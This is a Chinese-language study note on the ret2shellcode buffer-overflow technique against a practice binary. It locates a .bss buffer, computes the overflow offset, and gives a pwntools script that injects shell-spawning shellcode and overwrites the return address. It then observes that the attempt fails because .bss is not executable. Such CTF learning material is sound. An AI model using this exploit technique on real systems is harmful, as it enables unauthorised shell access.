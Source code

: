 * 观察到`buf2`不是局部变量，因此是全局变量`.bss`中

* 双击`buf2`

  ```C
  .bss:0804A080 buf2            db 64h dup(?)           ; DATA XREF: main+7B↑o
  ```

* 由于ELF文件中是不会有stack的，因此开`ASLR`之后就不易找到stack的栈顶位置，但`.bss`本身就存在于ELF文件中，因此可以将`shellcode`放到`.bss`中

* 因此容易知道`.bss`的地址

  ```C
  0x0804A080
  ```

* 要根据实际情况查看溢出覆盖的范围

  <img src="D:\github\pwn\pwn_study\images\ret2shellcode_stack.png" alt="ret2shellcode_stack" style="zoom:38%;" />

* 由此见得从`1C `到`88`

  ```
  88h - 1Ch = 6ch = 108
  开头是shellcode(由print(asm(shellcraft.sh()))获得), 中间是五关字节流, 然后是4bytes的ebp覆盖流, 然后是.bss的地址(p32(0x0804A080))
  ```

* 利用脚本如下

  > 必须满足`.bss`是可读可写可执行的！！！！！！！

  ```python
  from pwn import *
  context(arch='i386', os='linux')
  
  bss_addr = 0x0804A080
  
  
  io=process('./ret2shellcode')
  io.recvline()  # puts()...
  shellcode = asm(shellcraft.sh())
  
  payload = shellcode.ljust(112,b'A') + p32(bss_addr) --- 112==108+4,4 bytes 垃圾数据来填充ebp
  print(payload)
  io.sendline(payload)
  io.interactive()
  ```

* 不成功的原因：在自己的机器上`.bss`段并不是可执行的！！！

  ![ret2shellcode_bss_no_executive](D:\github\pwn\pwn_study\images\ret2shellcode_bss_no_executive.png)

  实际上该ELF文件只有`stack`可执行，因此不能利用`.bss`



### ret2syscall
